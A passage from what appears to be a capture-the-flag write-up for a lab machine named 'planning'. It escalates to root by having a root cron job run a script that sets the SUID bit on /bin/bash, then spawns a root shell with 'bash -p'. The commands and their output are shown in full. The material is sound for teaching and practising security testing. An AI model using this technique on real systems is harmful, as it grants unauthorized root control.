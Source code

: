 ```bash
echo "chmod u+s /bin/bash" > /tmp/shell.sh
```
{: .nolineno }

This is how I did it 🔻

```bash
enzo@planning:/var/backups$ cd /tmp
enzo@planning:/tmp$ echo 'chmod u+s /bin/bash' >shell.sh
enzo@planning:/tmp$ chmod +x shell.sh
enzo@planning:/tmp$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
enzo@planning:/tmp$
```
{: .nolineno }

And set this path from crontab execution 🔻

![](Pasted%20image%2020250823224211.png)
_Crontab set for SUID bash_

## 9️⃣ Root Access  

I ran it manually without waiting for cron job to kicks in. And I got the desired SUID permission on bash shell 🔻

```bash
enzo@planning:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
enzo@planning:/tmp$
```
{: .nolineno }

Now lets use the bash to have root shell that will be using effective UID method 🔻

**Flag**: `-p` (preserve effective UID). Then:  

```bash
enzo@planning:/tmp$ /bin/bash -p
bash-5.2# cd /root
bash-5.2# ls -al
total 40
drwx------  6 root root 4096 Aug 23 11:48 .
drwxr-xr-x 22 root root 4096 Apr  3 14:40 ..
lrwxrwxrwx  1 root root    9 Feb 28 20:41 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr 22  2024 .bashrc
drwx------  2 root root 4096 Apr  1 11:08 .cache
-rw-------  1 root root   20 Apr  3 15:18 .lesshst
drwxr-xr-x  4 root root 4096 Feb 28 19:01 .npm
-rw-r--r--  1 root root  161 Apr 22  2024 .profile
-rw-r-----  1 root root   33 Aug 23 11:48 root.txt
drwxr-xr-x  2 root root 4096 Apr  3 12:54 scripts
drwx------  2 root root 4096 Feb 28 16:22 .ssh
bash-5.2#
```
{: .nolineno } 
